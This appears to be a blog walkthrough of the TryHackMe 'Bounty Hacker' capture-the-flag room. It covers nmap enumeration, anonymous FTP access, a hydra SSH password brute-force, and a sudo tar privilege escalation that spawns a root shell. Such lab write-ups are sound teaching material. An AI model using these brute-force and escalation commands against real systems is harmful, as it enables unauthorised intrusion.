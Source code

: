 ```yaml
---
layout: post
permalink: /posts/thm/bounty-hacker
title: "Bounty Hacker"
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! <br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/bounty-hacker/nmap.png)

Good! From the nmap scan we can see there are open ports 21 FTP, 22 SSH and 80 HTTP. We have to find a task list now which probably will be located at the FTP server. You can notice from the nmap result that anonymous login is allowed. Go and visit the FTP server.

```
ftp <IP>
```

with username anonymous

![ftp](/assets/images/thm/bounty-hacker/ftp.png)

We can download the files with the following command

```
get <FILE_NAME>
```

From the `task.txt` we have found a name which is probably a user and `locks.txt` looks like password wordlist. Let's try to bruteforce ssh using hydra.

```
hydra -l lin -P locks.txt 10.10.126.63 ssh
```

![hydra](/assets/images/thm/bounty-hacker/hydra.png)

Yep, as we though that was a wordlist. Now SSH to the machine.

```
ssh lin@<IP>
```

![shell](/assets/images/thm/bounty-hacker/shell.png)

Here is the first flag. Now we need to find way to escalate our privileges. The first thing that I awlays check is whther the current user has any permissions to execute sudo commands.

```
sudo -l
```

![sudo-l](/assets/images/thm/bounty-hacker/sudo-l.png)

We are in luck. Lin user has the right to execute `/bin/tar` as sudo. Go and visit our favourite site `https://gtfobins.github.io/gtfobins/tar/`

![gtfobins](/assets/images/thm/bounty-hacker/gtfobins.png)

Yes, it is simple as that, just copy the command and execute it and you will have root acces.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![root](/assets/images/thm/bounty-hacker/root.png)

Here we go, we are root. Find the root flag and you'll prove that you are an elite hacker.